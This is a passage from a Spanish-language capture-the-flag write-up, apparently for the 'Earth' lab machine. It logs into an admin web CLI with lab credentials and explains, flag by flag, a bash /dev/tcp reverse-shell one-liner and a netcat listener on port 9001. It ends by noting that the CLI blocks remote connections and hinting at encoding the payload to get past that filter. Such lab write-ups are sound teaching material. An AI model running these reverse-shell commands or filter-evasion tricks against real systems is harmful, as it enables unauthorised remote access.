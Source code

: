 <img width="1918" height="903" alt="Captura de pantalla 2025-09-14 223443" src="https://github.com/user-attachments/assets/fd644a0f-5289-405b-9bbf-bbf97d89c533" />

## Accediendo y Hackeando la tool del Admin {#accediendo-y-hackeando-la-tool-del-admin}

Para acceder en la tool del admin usamos el siguiente par de acceso:

```
terra:earthclimatechangebad4humans
```
<img width="1918" height="331" alt="image" src="https://github.com/user-attachments/assets/7552472a-5dba-4e99-9837-3d377b411fbb" />

El CLI que nos proporciona es sencillo, es una tool para probar comandos de shell en la web, esto nos puede dar pistas directamente de que podemos obtener una shell reversa:

<img width="1918" height="467" alt="image" src="https://github.com/user-attachments/assets/443d387e-d2af-41b3-8363-700ebaace1bb" />

Por ejemplo listamos los ficheros, la idea es obtener una conexión remota usando por ejemplo netcat, para ello podemos usar esta shell sencilla:

```
sh -i >& /dev/tcp/IPmaquina-anfitrion/PUERTO 0>&1
```

- sh -i: Inicia una shell interactiva (sh en modo interactivo).

- /dev/tcp/IPmaquinaremota/PUERTO: /dev/tcp/host/port es un pseudo-dispositivo especial. Permite abrir una conexión TCP directamente desde la shell hacia una dirección (IPmaquinaremota) y un puerto (PUERTO). Es decir, se conecta al puerto indicado de la máquina remota..

- >& /dev/tcp/... : Redirige la salida estándar (stdout) y la salida de errores (stderr) de la shell hacia esa conexión TCP. Todo lo que imprima la shell irá por la red al puerto remoto.

- 0>&1: Redirige la entrada estándar (stdin) a través de la misma conexión TCP. Así, todo lo que se escriba desde la máquina remota llega como entrada a la shell.

Una vez explicado el resumen será esta la que aplicaremos en el input text del CLI. Antes de hacerlo abrimos un netcat en nuestra máquina y asignamos al puerto que le diremos a la máquina earth que se conecte, en mi caso 9001.

```
nc -lvnp 9001
```

-l → listen: poner nc en modo escucha (esperar conexiones entrantes).

-v → verbose: modo verboso — muestra información extra sobre la conexión (útil para depurar).

-n → numeric-only: no resuelve nombres DNS ni intenta convertir direcciones; usa directamente IPs y puertos numéricos.

-p 9001 → port: especifica el puerto local en el que escuchar (en este caso el 9001).

<img width="700" height="150" alt="image" src="https://github.com/user-attachments/assets/12f30085-20b7-4351-9292-7d300f8697b0" />

Una vez hecho esto, vemos como al mandarle la shell directamente nos aparece: "Conexiones Remotas prohibidas", esto es porque no acepta conexiones simples, pero esto indica que podríamos encodearla de alguna forma para hacer que se la trage nuestro CLI
